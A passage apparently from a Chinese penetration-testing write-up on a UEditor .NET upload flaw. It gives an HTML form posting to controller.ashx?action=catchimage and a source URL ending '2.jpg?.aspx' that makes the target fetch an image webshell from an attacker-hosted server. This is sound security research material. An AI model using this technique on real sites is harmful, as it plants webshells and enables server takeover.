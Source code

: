 然后图片马上传到公网服务器上

[![](assets/1705301733-d26c79b5710ed5b82359ac94926f9055.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140005-d4f3816e-b10f-1.png)

本地构造一个上传的form表单

```plain
<form action="http://www.xxx.com/admin/net/controller.ashx?action=catchimage"enctype="application/x-www-form-urlencoded"  method="POST">
<p>shell addr:<input type="text" name="source[]" /></p >
<input type="submit" value="Submit" />
</form>
```

上传图片马，上传地址修改为：[http://192.168.8.198/2.jpg?.aspx](http://192.168.8.198/2.jpg?.aspx)

[![](assets/1705301733-a73ad61a29b9b08321138b5095a299a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240112140017-dc1cd8be-b10f-1.png)
